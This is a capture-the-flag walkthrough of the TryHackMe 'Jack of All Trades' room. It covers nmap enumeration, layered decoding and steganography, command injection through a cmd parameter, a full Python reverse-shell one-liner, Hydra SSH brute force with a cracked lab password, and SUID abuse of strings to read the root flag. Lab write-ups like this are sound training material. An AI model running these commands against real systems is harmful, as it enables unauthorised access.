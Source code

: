 # Jack of All Trades CTF [TryHackMe](https://tryhackme.com/room/jackofalltrades)

10th July 2021

## Index

- [Enumeration](#enumeration)
- [Gaining access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

---

![room_picture](./.assets/room_picture.jpeg)

---

```bash
export IP=10.10.152.45
```

---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 http
80 ssh
```

The ports have been swapped - meaning we have been given the headache of reconfiguring firefox to allow an http requests from port 22. This [resource](https://support.mozilla.org/en-US/questions/1083282) helped in case you're facing difficulty yourself.

Moving on to the website, we see its a simple static website but navigating the source code of the page yields some interesting information.

![hint #1](./.assets/comment_hint.png)

It is quickly evident that this is base64 encoded (notice the two equal signs at the end) and [decoding](https://gchq.github.io/CyberChef/) yields an interesting note.

![Password](./.assets/password_note.png)

Navigating to `recovery.php` again yields an interesting result in the comments of the page.

Time to decode it! I first decode it from bsae32 which seems to yield hex characters. So I convert it from hex to ascii and it is becoming evident that I am on the right path as I have some sort of rotation cipher. It's rot13! And we are given the following hint...

![hint #2](./.assets/password_hint.png)

Using the passphrase we got earlier, I tried decoding the steg image, which indicated I was on the right path but this was the wrong picture. Trying again with the jackinthebox picture...I failed but that left one last picture to be decoded: the header image.
Decoding that was a success!

We now have a username and password which which we can log into the `recovery.php` site.

---

### Gaining access

Going onto the page, there is the solitary test that we must `GET a 'cmd' and future-jack will run it for you`. So we can pass through commands using.

`http://<<IP>>:22/nnxhweOV/index.php?cmd=whoami`

![whoami](./.assets/command.png)

Constructing a python reverse shell after checking which python version is applicable:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<My IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And now we have access to the box!

Looking in the home directory, we notice a file named `jacks_password_list`...
Hydra time:

```bash
$ hydra -l jack -P password_list.txt -t 64 ssh://$IP:80
```

Yields the result: `jack:ITMJpGGIqg1jn?>@`

Now that we have access to the box we can get the first flag...or not quite yet since its in jpg format...
Thankfully the flag is written in the image so we don't have to do any fancy decoding process.

### Priviledge Escalation

Now using linpeas to quickly enumerate the system for weaknesses, we notice that `strings` has its SUID bit set...

I first checked if it was possible to use it to escalate priviledges but in the end I decided to just run:

```bash
$ strings /root/root.txt
```

![root.txt](./.assets/root_flag.png)
(The root flag has been cropped out of the screenshot)

To snag the root flag! And we are _**complete!**_
I really enjoyed this room despite it being a fairly simple one. Highly recommended for a quick pep-up if needed!

![](./.assets/securi-tay.png)
